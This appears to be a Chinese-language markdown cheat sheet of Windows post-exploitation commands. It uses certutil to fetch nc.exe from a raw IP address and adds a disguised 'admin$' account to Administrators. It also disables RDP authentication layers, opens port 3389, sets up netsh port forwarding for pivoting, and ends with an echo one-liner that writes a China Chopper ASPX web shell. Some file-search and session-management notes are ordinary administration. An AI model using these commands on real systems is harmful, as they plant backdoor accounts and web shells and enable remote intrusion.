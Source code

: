 

## 下载文件

certutil -urlcache -split -f http://11.1.63.39/nc.exe
## 渗透后置操作

```bash
net user admin$ tuser321 /add
net localgroup administrators admin$ /add
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v SecurityLayer /t REG_DWORD /d 0
netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow
REG ADD "HKLM\SYSTEM\CurrentControlSet\Control\TerminalServer" /v fDenyTSConnections /t REG_DWORD /D 0 /f
echo 远程桌面端口 port number is 
REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber

gpupdate /force
# 查看开了哪些端口
netstat -aon
```

## FAQ
###  终端服务器超过最大允许连接数
远程桌面界面，在地址栏上 1.1.58.58:65535 /admin

或cmd `mstsc /admin /v:1.1.58.58:65535` ,  此方式不能操作剪贴版
### 终端操作
```
# 查询
qwinsta 查询连接
query session
query user
# kill
log off <id>
tsdiscon rdp-tcp#946
rwinsta <id>关闭连接
```

## TODO
1.TODO: 终端服务器超过最大允许连接数 修改
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v MaxInstanceCount /t REG_DWORD /d 10 /f

# https://admx.help/?Category=Windows_10_2016&Policy=Microsoft.Policies.TerminalServer::TS_MAX_CON_POLICY
tsadmin 可看连接
```
## 查找文件 
win7以上
```ts
find F:\Downloads #查找目录下所有文件　
find F:\Downloads | findstr Apifox      # 过滤Apifox
```
xp/2003

dir \calendar /s
dir D:\ /s | findstr /i txt >c:\tmp.txt


## 端口转发
win7以上
```bash
netsh interface portproxy add v4tov4 listenport=4546 connectaddress=1.1.58.59 connectport=1521
netsh interface portproxy delete v4tov4 listenport=4546 listenaddress=1.1.58.58
netsh interface portproxy show all
netsh interface portproxy reset
```


## 注册表添加删除程序
x64
HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\

## echo 相关

转义用^

aspx
```
echo ^<%@ Page Language="Jscript"%^>^<%eval(Request.Item["chopper"],"unsafe");%^>  >1
```
